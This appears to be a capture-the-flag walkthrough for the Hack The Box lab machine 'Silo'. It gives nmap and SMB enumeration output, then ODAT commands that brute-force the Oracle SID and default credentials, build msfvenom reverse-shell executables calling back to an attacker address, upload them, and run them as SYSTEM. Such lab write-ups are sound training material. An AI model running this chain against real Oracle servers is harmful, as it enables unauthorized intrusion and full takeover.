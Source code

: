 # HTB - Silo  10.10.10.82


- Microsoft Windows Server 2012 R2 Standard
- 6.3.9600 N/A Build 9600
- 149 Hotfix(s) Installed.

- IIS 8.5
- Oracle TNS listener 11.2.0.2.0


- Bruteforce Oracle SID with ODAT and sid list
- Bruteforce user/pass with ODAT and oracle_user_passwd list
- Use ODAT to Upload reverse shell
- Use ODAT to Execute local file (our reverse shell)
- NC Shell is System/Admin




## Walkthrough

- https://0xdf.gitlab.io/2018/08/04/htb-silo.html
-> Nice writeup, some other ways, and rotenpotato

- https://v3ded.github.io/ctf/htb-silo.html
- https://medium.com/@DRX_Sicher/walkthrough-silo-hackthebox-929f7f0a7431
- https://medium.com/@sathish__kumar/hackthebox-silo-writeup-5fe92ac04bb5




## Nmap

````
nmap -sC -sV -oA nmap/initial 10.10.10.82

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn?
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)                                                                                 49161/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submi
t.cgi?new-service :
SF-Port139-TCP:V=7.70%I=7%D=4/21%Time=5ADBEBEB%P=x86_64-pc-linux-gnu%r(Get
SF:Request,5,"\x83\0\0\x01\x8f");
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2018-04-21 21:58:51
|_  start_date: 2018-04-21 15:47:47
````

## SMB

```
# enum4linux 10.10.10.82
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Sep 22 16:14:47 2019

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.10.82
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 =================================================== 
|    Enumerating Workgroup/Domain on 10.10.10.82    |
 =================================================== 
[E] Can't find workgroup/domain


 =========================================== 
|    Nbtstat Information for 10.10.10.82    |
 =========================================== 
Looking up status of 10.10.10.82
No reply from 10.10.10.82

 ==================================== 
|    Session Check on 10.10.10.82    |
 ==================================== 
Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.
[E] Server doesn't allow session using username '', password ''.  Aborting remainder of tests.
```


## Oracle

### Install ODAT 


ODAT is found here  : https://github.com/quentinhardy/odat
- Get standalone : https://github.com/quentinhardy/odat/releases/download/2.3/odat-linux-libc2.5-x86_64-v2.3.zip   (Best option)
- Or,install all from scratch and Install Oracle drivers : https://v3ded.github.io/ctf/htb-silo.html

More about Oracle
Metasploit:
    -https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux
    -https://blog.zsec.uk/msforacle/
ODAT:
    -https://github.com/quentinhardy/odat/blob/master/README.md (scroll down to the install section) 


Install odat in /opt
Copy /usr/share/wordlists/metasploit/oracle_default_userpass.txt /opt/odat/accounts then replace space by / =>  LOGIN/PASS


### Brute force SID

```
# /opt/odat/odat sidguesser -s 10.10.10.82 -p 1521

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...                                                                                                                                   
[+] 'XEXDB' is a valid SID. Continue...                                                                                                                                
100% |##############################################################################################################| Time: 00:02:19 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |##############################################################################################################| Time: 00:00:05 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'XE' is a valid SID. Continue...                                                                                                                                   
100% |##############################################################################################################| Time: 00:02:02 
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB
Failed to execute script odat
```



### Brute force login/password

```# ./opt/odat/odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file /opt/odat/accounts/msf_oracle_default_userpass.txt 


[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521
The login cdemo82 has already been tested at least once. What do you want to do:                                                                      | ETA:  00:02:25 
- stop (s/S)
- continue and ask every time (a/A)
- continue without to ask (c/C)
c
[+] Valid credentials found: scott/tiger. Continue...                                                                                                                  
100% |################################################################################################################################################| Time: 00:03:27 
[+] Accounts found on 10.10.10.82:1521/XE: 
scott/tiger

Failed to execute script odat
```  
    
    
### Reverse shell for windows

```
Meterpreser staged for msf handler
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.14.18 lport=4444 -f exe > reverse.exe

Reverse TCP for nc
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe > shell2.exe
```

### Upload file


```
# /opt/odat/odat  utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ reverse.exe reverse.exe

[1] (10.10.10.82:1521): Put the reverse.exe local file in the c:/ folder like reverse.exe on the 10.10.10.82 server
[+] The reverse.exe file was created on the c:/ directory on the 10.10.10.82 server like the reverse.exe file

```


### Execute shell

```
/opt/odat/odat externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/reverse.exe
```

### NC

```

```